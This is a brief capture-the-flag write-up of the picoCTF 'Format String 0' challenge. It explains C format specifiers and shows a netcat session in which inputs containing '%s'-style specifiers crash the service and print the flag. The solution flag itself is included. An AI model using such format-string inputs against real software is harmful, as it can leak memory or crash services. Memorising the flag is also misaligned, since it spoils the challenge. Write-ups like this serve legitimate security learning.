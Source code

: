 # Format String 0


**Flag**= `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`
This challenge required us to use knowledge on format specifiers to get the flag.
One of the hints on this challenge encouraged me to look up info about format specifiers.
I found out that these are commonly used placeholders for data input and output in functions like scanf and printf in languages like C and C++.
``%s, %d, %x, %p`` etc. are some examples.
They generally begin with % symbol which is used to indicate them being a format specifier.
Exploitation on these can be done through leaking the data from stacks and by repeatedly giving format specifiers like these, an attacker can read things from the stack which includes addresses and variables.
So with this knowledge I went ahead and started the challenge in my webshell terminal on picoCTF.
Each time, I just selected the option with % in it and arrived at the flag pretty easily.

```bash
Sylvaris-picoctf@webshell:~$ nc mimas.picoctf.net 55232
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
